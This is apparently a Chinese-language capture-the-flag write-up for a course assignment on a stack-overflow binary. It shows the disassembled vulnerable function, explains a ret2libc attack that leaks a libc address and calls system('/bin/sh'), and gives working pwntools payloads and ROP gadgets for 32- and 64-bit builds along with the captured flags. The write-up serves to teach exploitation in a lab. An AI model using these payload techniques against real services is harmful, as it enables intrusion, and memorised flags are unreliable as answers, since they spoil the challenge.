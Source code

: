 ## 1.作业要求：
分析附件中的2个有漏洞的程序（同一个代码编译的32位版本、64位版本），获取部署了该漏洞程序的目标服务器中的flag（一个文件的内容，格式大概为：flag{...}），即为攻击成功。
附件中包含2个程序的可执行文件，以及可能需要的libc库。编写你的exploit，完成本地测试之后，去目标服务器验证。

## 2.反汇编代码
vuln32：
```
nt __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  write(1, wel, 0x1Eu);
  dovuln();
  return 0;
}

int dovuln()
{
  int v0; // eax
  char buf; // [esp+4h] [ebp-44h]
  char v3[51]; // [esp+5h] [ebp-43h]
  int v4; // [esp+38h] [ebp-10h]
  unsigned int v5; // [esp+3Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  memset(v3, 0, 0x30u);
  v4 = 0;
  while ( 1 )
  {
    if ( read(0, &buf, 1u) != 1 )
      exit(0);
    if ( buf == 10 )
      break;
    v0 = v4++;
    v3[v0] = buf;
  }
  return puts(v3);
}
```
## 3.思路：
漏洞点：char v3[51]数据读取无验证越界，导致栈溢出。
防护：
![](https://github.com/ReAbout/ctf-writeup/blob/master/pwn000/images/pwn3.png)<br>
奇怪的是开启canary，但是无法修改无法触发。主要就是考虑过NX。
本题提供了libc，就是使用write函数将got表中write（read）地址作为参数，调用plt表中的write函数，得到基地址后加上libc中的system函数在程序中的偏移，就得到了system函数的实际地址，进行调用即可。
### 1 [32bit]
####(1)发送payload溢出覆盖return，返回到glt表write函数，输出got表中write的地址，并返回到main函数。
也就是先调用write(1,write函数地址,4)，第一个参数文件描述符等于1表示输出，4代表输出的长度，中间的就是输出的内容，调用完成后返回主函数，得到基地址后为泄露system函数的地址做准备。
Payload:
```
num = 51 
payload = num * 'a'+'\x47'
payload += p32(elf.symbols['write'])
#payload += p32(0x80486b2)
payload += p32(elf.symbols['main'])
payload += p32(1)
payload += p32(elf.got['write'])
payload += p32(4)
```
#### (2)计算出libc中system（）和bin/sh中的地址
write_addr - system_addr == write_addr_libc - system_addr_libc
```
wirte_offset = libc.symbols['write']
system_offset = libc.symbols['system']
bin_sh_offset = next(libc.search('/bin/sh'))
libc_base = write_addr -wirte_offset
system_addr = libc_base + system_offset
bin_sh_addr = libc_base + bin_sh_offset
```
#### (3)再次发送payload溢出覆盖return，返回到system（）利用参数bin/sh，执行命令。
```
payload2 = 'a'*num + '\x47'
payload2 += p32(system_addr)
payload2 += p32(1)
payload2 += p32(bin_sh_addr)
```
__get flag__: flag{Ok_yOu_get@#$_it!}
![](https://github.com/ReAbout/ctf-writeup/blob/master/pwn000/images/pwn1.PNG)<br>
### [64bit]
x64思路相同，区别在于参数传递需要通过寄存器入栈。
>在x64下通常参数从左到右依次放在rdi, rsi, rdx, rcx, r8, r9，多出来的参数才会入栈.

索要就要找到通过32bit我们知道write，需要三个参数，即用到rdi、rsi、rdx三个寄存器。
利用工具[ROPgadget](https://github.com/JonathanSalwan/ROPgadget)  --binary 指定二进制文件，使用grep在输出的所有gadgets中寻找需要的片段。
![](https://github.com/ReAbout/ctf-writeup/blob/master/pwn000/images/pwn4.png)<br>
可以看到前面两个都可以找到合适的gadget，但是 pop rdx 的却找不到，也就是write函数的第三个参数是我们不能控制的，但是在动态调试时候，在read函数处下断点可以看到，此时的rdx是为 0x200，也就是说 write 函数的标准输出的长度为0x200字节，这里只要大于8个字节（地址长度），我们都可以得到read函数的真实地址（got表中的地址）
payload：
```
pop_rdi_addr = 0x0000000000400933 #pop rdi ; ret
pop_rsi_addr = 0x0000000000400931 # pop rsi ; pop r15 ; ret
payload = num * 'a'+'\x47'
payload += p64(pop_rdi_addr)
payload += p64(1)

payload += p64(pop_rsi_addr)        
payload += p64(elf.got['write'])  #rsi      
payload += p64(0)   #r15

payload += p64(elf.plt['write'])
payload += p64(elf.symbols['main'])   
```
payload2:
```
payload2 += p64(pop_rdi_addr)
payload2 += p64(bin_sh_addr)
payload2 += p64(system_addr)
```
__get flag__: flag{__you_are_so_Cu7e_!!}
![](https://github.com/ReAbout/ctf-writeup/blob/master/pwn000/images/pwn2.png)<br>
# EXP
[32bit Exploit](https://github.com/ReAbout/ctf-writeup/blob/master/pwn000/files/exp.py)
[64bit Exploit](https://github.com/ReAbout/ctf-writeup/blob/master/pwn000/files/exp664.py)

